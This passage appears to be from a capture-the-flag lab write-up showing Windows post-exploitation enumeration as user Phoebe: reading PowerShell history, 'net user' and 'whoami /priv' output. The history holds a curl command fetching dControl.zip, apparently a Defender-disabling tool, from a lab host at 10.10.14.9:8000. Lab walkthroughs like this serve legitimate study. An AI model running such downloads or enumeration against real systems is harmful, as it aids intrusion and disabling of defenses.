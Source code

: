 ```bash
C:\Users\Phoebe\Desktop>type C:\Users\Phoebe\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

curl 10.10.14.9:8000/dControl.zip -o dControl.zip
```

Powershell history shows that the user `Phoebe` tried to download `dControl.zip` file.

```bash
C:\Users\Phoebe\Desktop>net user Phoebe

User name                    Phoebe
Full Name                    Phoebe
Comment                      Workstation Power User
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            4/12/2021 11:54:30 AM
Password expires             Never
Password changeable          4/12/2021 11:54:30 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   12/23/2024 11:52:41 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.
```

Nothing useful here.

```bash
C:\Users\Phoebe\Desktop>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```
